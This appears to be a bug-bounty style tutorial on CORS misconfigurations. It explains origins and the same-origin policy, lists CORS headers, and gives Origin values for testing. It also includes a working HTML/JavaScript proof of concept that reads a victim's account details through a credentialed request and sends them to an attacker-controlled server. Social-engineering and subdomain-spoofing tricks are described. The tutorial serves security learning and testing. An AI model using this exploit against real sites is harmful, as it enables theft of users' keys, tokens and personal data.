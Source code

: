 ![[CORS1.webp]]

The CORS vulnerability, which stands for Cross-origin resource sharing, is one of the most dangerous vulnerabilities, in the sense that an intruder can obtain various and sensitive information such as sessions and many other sensitive information; This vulnerability that will happen on the subject of modern browsers has a lot to do with SOP, which we will examine in the following SOP topic, but first you must to know origin.

**What is Origin?**
When you enter a site, for example Example.com, in this case you have entered the origin of the Example.com website.

**What is origin made of?**  
The Origin is composed of the combination of three elements Protocol, Host and Port, and if we change each of these three elements, we will have a new origin, which you will fully understand in the example below:

```http
http://example.com  
https://example.com  
http://en.example.com  
https://example.com:22
```

Normally, due to the existence of SOP, we cannot request Cross-Origin to any of these.

**What is SOP?**  
Servers are used to host web pages, applications, images, fonts, etc. Now, when you use a browser, you are trying to access a unique website. To load this website, the browser needs to send different requests to different servers. Servers located in different locations around the world. Now, the security policies of the servers are responsible for reducing the risks related to these requests/responses as much as possible. One of these policies is called same-origin.

The same-origin policy is very restrictive. According to this policy, a document hosted on server A can only communicate with documents hosted on the same server. This issue can be seen from the name of politics itself because same origin means a root or a lineage.

As you Know, not having a security policy can hurt the website, but having something like same-origin also limits us a lot.

Fortunately, there is another approach that gives us flexibility in addition to security. Cross-origin is one of these and came to solve SOP limitation, which is abbreviated as CORS.

**Trick:** 
We can bypass SOP with one XSS, if we have one XSS vulnerability we can access to DOM and bypass SOP easy.

**CORS Bug:**  
A request to a resource such as an image or font outside the original origin is called a cross-origin request. CORS stands for cross-origin resource sharing, which helps us manage cross-origin requests.

Since today’s websites load their resources through different places, it is very convenient to use CORS.

Servers that are going to run cross-origin requests must also be able to handle it. On the other hand, CORS gives servers the ability to configure verified origins. In the sense that only a series of origins can be referred.

In fact, working with CORS is more flexible because it gives us the ability to customize security items and create a unique security policy based on our needs.

**How does CORS handle requests from external sources?**  
The HTTP header is where it’s supposed to help us manage CORS. This header is sent with each request or response and contains different information each time. Using this header, you can define how requests and answers are sent. CORS adds a bunch of new options to HTTP headers to handle requests. Below you can see these items:

```http
Access-Control-Allow-Origin  
Access-Control-Allow-Credentials  
Access-Control-Allow-Methods  
Access-Control-Allow-Headers  
Access-Control-Expose-Headers  
Access-Control-Max-Age  
Access-Control-Request-Headers  
Access-Control-Request-Method
```

**How to find CORS bug?**  
First, we have to change the HTTP header origin in the HTTP request we send, and if the origin is not in the HTTP request, add it, and then send the request and check the response.  
now If there are **“Access-Control-Allow-Origin: */attacker.com”** and **“Access-Control-Allow-Credentials: True”** in the response, it can be assumed that There is a CORS bug, **and it means origin(attacker.com) can send request from him site and get response include important information** .

**Some parameter we can replace in origin:**  
1. null  
2. attacker.com  
3. example.com+attacker.com

**How to exploit CORS bug?**  
when you have found the CORS bug, you can exploit the vulnerability by starting a server and running the following commands on the server, and important information such as APK key, CSRF Tokens and other sensitive information using Get the implementation of a listener using the following script:

```html
<html>  
    <body>  
        <iframe style="display: none;" sandbox="allow-scripts" srcdoc="  
        <script>  
            var req = new XMLHttpRequest();  
            var url = 'APPLICATION URL'  
            req.onload = retrieveKeys;  
  
            req.open('GET', url + '/accountDetails', true);  
            req.withCredentials = true;  
            req.send(null);  
  
           function retrieveKeys() {  
               fetch('https://Exolit_Server_Hostname/log?key=' + req.responseText)  
            }  
        </script>"></iframe>  
    </body>  
</html>
```

Now attacker make one file named `exploit.html` and when victim load and open `attacker.com/exploit.html` with social engineering method, it can automatically loaded important data and save on server or send to attacker.

**One trick**  
Sometimes the site only allows its own Sub-Domain to make Cross-Origin requests, in this case we create a Sub-Domain with the name of the site and test with it. for example:

```
target:  
example.com  
  
my subdomain:  
example.com.mysite.com
```

**Finding CORS:**  
Always look for some sensitive data in response like account id, address, phone number, email, etc which can show some impact on business towards the organization.


GitHub: [https://github.com/abolfazlvaziri](https://github.com/abolfazlvaziri)  
Instagram: [https://instagram.com/abolfazlvaziriofficial](https://instagram.com/abolfazlvaziriofficial)  
Telegram Channel: [https://t.me/AVN_COMMUNITY](https://t.me/AVN_COMMUNITY)  
YouTube: [https://www.youtube.com/@abolfazlvaziri](https://www.youtube.com/@abolfazlvaziri)